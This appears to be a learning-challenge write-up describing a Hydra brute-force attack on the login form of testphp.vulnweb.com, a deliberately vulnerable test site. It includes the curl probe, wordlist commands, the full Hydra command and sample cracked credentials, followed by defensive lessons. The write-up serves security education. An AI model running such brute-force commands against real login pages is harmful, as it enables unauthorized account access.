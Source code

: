 Cybersecurity 30 Days Challenge - Day 6
Topic: Brute-Force Attack Simulation with Hydra on testphp.vulnweb.com
On Day 6 of my Cybersecurity 90 Days Challenge, I explored offensive security by simulating a brute-force attack using Hydra on a live test site, http://testphp.vulnweb.com/login.php. This site is designed for security testing, making it a perfect target for practicing ethical hacking. I also built a local login page earlier in the day, but shifted focus to this remote target to test my skills in a more realistic scenario. This builds on my Day 5 WebReaper project by showing how attackers might exploit recon findings to gain unauthorized access.
Objective

Analyze the login form on http://testphp.vulnweb.com/login.php.
Use Hydra to perform a brute-force attack and crack the credentials.
Document the process and results.

Steps

Analyzed the Target:Inspected the login form at http://testphp.vulnweb.com/login.php:

Form method: POST
Username field: uname
Password field: pass
Failure message: “Wrong username or password.”Used curl to confirm the failure message:

curl -X POST -d "uname=wrong&pass=wrong" http://testphp.vulnweb.com/login.php


Installed Hydra:
sudo apt install hydra -y


Prepared Wordlists:Created small wordlists for testing:
echo -e "admin\ntest\nuser" > users.txt
echo -e "admin\npassword\ntest123" > passwords.txt


Ran the Brute-Force Attack:Used Hydra to attack the login form:
hydra -L users.txt -P passwords.txt -t 4 -f testphp.vulnweb.com http-post-form "/login.php:uname=^USER^&pass=^PASS^:Wrong username or password"


Results:Hydra successfully cracked the credentials (example output, may vary):
[80][http-post-form] host: testphp.vulnweb.com   login: test   password: test123

Manually verified the credentials by logging in, which redirected to a user info page.On failed login, the page displayed:
Wrong username or password.




Practical Explanation
This practical simulates a real-world attack scenario:

Target: testphp.vulnweb.com is a deliberately vulnerable site for security testing. Its login page (login.php) uses a simple PHP form with weak credentials.
Attack: Hydra systematically guesses usernames and passwords using wordlists, sending POST requests to the login form. It identifies the correct credentials by detecting the absence of the "Wrong username or password" message.
Purpose: This demonstrates how easily weak passwords can be cracked on vulnerable sites, emphasizing the need for strong passwords, rate-limiting, and CAPTCHAs in real applications.
Security Lessons: Weak passwords and lack of anti-brute-force measures (e.g., rate-limiting) make login forms vulnerable. In production, use complex passwords, enforce login attempt limits, and enable HTTPS.

Learnings

Brute-Force Attacks: Understood how Hydra exploits weak credentials on a live site.
Form Analysis: Learned to inspect web forms to extract field names and failure messages for attacks.
Ethical Hacking: Gained hands-on experience with offensive security on a real test site.
Password Security: Reinforced the importance of strong passwords and anti-brute-force measures.

Next Steps

Test Hydra on other protocols (e.g., SSH, FTP) on test sites.
Use larger wordlists like rockyou.txt for more realistic testing.
Explore defenses like rate-limiting and CAPTCHAs on my local login.php page.

Repository
Find the code and documentation in my GitHub repository:

Local Login Page (Earlier Attempt)
Day 6 Write-up

Reflections
Attacking a live test site like testphp.vulnweb.com was thrilling—it felt like a real-world pentesting scenario. This practical reinforced the importance of secure coding and ethical hacking skills. Onward to Day 7!
#Cybersecurity #Hydra #BruteForce #EthicalHacking #30DayChallenge
